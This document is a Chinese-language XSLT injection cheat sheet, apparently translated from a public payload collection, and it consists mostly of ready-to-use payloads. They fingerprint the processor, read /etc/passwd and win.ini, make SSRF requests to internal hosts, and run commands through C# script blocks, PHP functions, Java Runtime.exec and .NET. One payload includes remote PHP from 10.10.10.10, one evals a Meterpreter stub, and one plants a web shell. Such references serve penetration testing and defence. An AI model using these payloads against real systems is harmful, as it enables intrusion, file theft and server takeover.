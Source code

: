 # XSLT注入

> 处理未经验证的XSL样式表可能会允许攻击者更改结果XML的结构和内容，包括从文件系统中包含任意文件，或执行任意代码。

## 摘要

- [XSLT注入](#xslt-injection)
  - [摘要](#summary)
  - [工具](#tools)
  - [利用方法](#exploit)
    - [确定供应商和版本](#determine-the-vendor-and-version)
    - [外部实体](#external-entity)
    - [使用document读取文件和SSRF](#read-files-and-ssrf-using-document)
    - [使用嵌入式脚本块进行远程代码执行](#remote-code-execution-with-embedded-script-blocks)
    - [使用PHP包装器进行远程代码执行](#remote-code-execution-with-php-wrapper)
    - [使用Java进行远程代码执行](#remote-code-execution-with-java)
    - [使用原生.NET进行远程代码执行](#remote-code-execution-with-native-net)
  - [参考资料](#references)

## 工具

## 利用方法

### 确定供应商和版本

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />版本: <xsl:value-of select="system-property('xsl:version')" />
<br />供应商: <xsl:value-of select="system-property('xsl:vendor')" />
<br />供应商URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
</body>
</html>
```

### 外部实体

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE dtd_sample[<!ENTITY ext_file SYSTEM "C:\secretfruit.txt">]>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    水果 &ext_file;:
    <!-- 遍历每个水果 -->
    <xsl:for-each select="fruit">
      <!-- 打印名称: 描述 -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>

</xsl:stylesheet>
```

### 使用document读取文件和SSRF

```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
    <xsl:copy-of select="document('http://172.16.132.1:25')"/>
    <xsl:copy-of select="document('/etc/passwd')"/>
    <xsl:copy-of select="document('file:///c:/winnt/win.ini')"/>
    水果:
	    <!-- 遍历每个水果 -->
    <xsl:for-each select="fruit">
      <!-- 打印名称: 描述 -->
      - <xsl:value-of select="name"/>: <xsl:value-of select="description"/>
    </xsl:for-each>
  </xsl:template>
</xsl:stylesheet>
```

### 使用嵌入式脚本块进行远程代码执行

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- 开始命令输出 ---
	<xsl:value-of select="user:execute()"/>
  --- 结束命令输出 ---	
  </xsl:template>
</xsl:stylesheet>
```

### 使用PHP包装器进行远程代码执行

执行`readfile`函数。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<xsl:value-of select="php:function('readfile','index.php')" />
</body>
</html>
```

执行`scandir`函数。

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:value-of name="assert" select="php:function('scandir', '.')"/>
        </xsl:template>
</xsl:stylesheet>
```

# 利用 `assert` 执行远程 PHP 文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body style="font-family:Arial;font-size:12pt;background-color:#EEEEEE">
		<xsl:variable name="payload">
			include("http://10.10.10.10/test.php")
		</xsl:variable>
		<xsl:variable name="include" select="php:function('assert',$payload)"/>
</body>
</html>
```

# 使用 PHP 包装器执行 PHP 米特纳特

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:variable name="eval">
                        eval(base64_decode('Base64编码的Meterpreter代码'))
                </xsl:variable>
                <xsl:variable name="preg" select="php:function('preg_replace', '/.*/e', $eval, '')"/>
        </xsl:template>
</xsl:stylesheet>
```

# 使用 `file_put_contents` 执行远程 PHP 文件

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" version="1.0">
        <xsl:template match="/">
                <xsl:value-of select="php:function('file_put_contents','/var/www/webshell.php','&lt;?php echo system($_GET[&quot;command&quot;]); ?&gt;')" />
        </xsl:template>
</xsl:stylesheet>
```

### 使用 Java 进行远程代码执行

```xml
  <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
      <xsl:variable name="rtobject" select="rt:getRuntime()"/>
      <xsl:variable name="process" select="rt:exec($rtobject,'ls')"/>
      <xsl:variable name="processString" select="ob:toString($process)"/>
      <xsl:value-of select="$processString"/>
    </xsl:template>
  </xsl:stylesheet>
```

```xml
<xml version="1.0"?>
<xsl:stylesheet version="2.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:java="http://saxon.sf.net/java-type">
<xsl:template match="/">
<xsl:value-of select="Runtime:exec(Runtime:getRuntime(),'cmd.exe /C ping IP')" xmlns:Runtime="java:java.lang.Runtime"/>
</xsl:template>.
</xsl:stylesheet>
```

### 使用原生 .NET 进行远程代码执行

```xml
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:App="http://www.tempuri.org/App">
    <msxsl:script implements-prefix="App" language="C#">
      <![CDATA[
        public string ToShortDateString(string date)
          {
              System.Diagnostics.Process.Start("cmd.exe");
              return "01/01/2001";
          }
      ]]>
    </msxsl:script>
    <xsl:template match="ArrayOfTest">
      <TABLE>
        <xsl:for-each select="Test">
          <TR>
          <TD>
            <xsl:value-of select="App:ToShortDateString(TestDate)" />
          </TD>
          </TR>
        </xsl:for-each>
      </TABLE>
    </xsl:template>
  </xsl:stylesheet>
```

## 参考资料

* [从 XSLT 代码执行到 Meterpreter Shell - 2012年7月2日 - @agarri](https://www.agarri.fr/blog/archives/2012/07/02/from_xslt_code_execution_to_meterpreter_shells/index.html)
* [XSLT 注入 - Fortify](https://vulncat.fortify.com/en/detail?id=desc.dataflow.java.xslt_injection)
* [XSLT 注入基础 - Saxon](https://blog.hunniccyber.com/ektron-cms-remote-code-execution-xslt-transform-injection-java/)
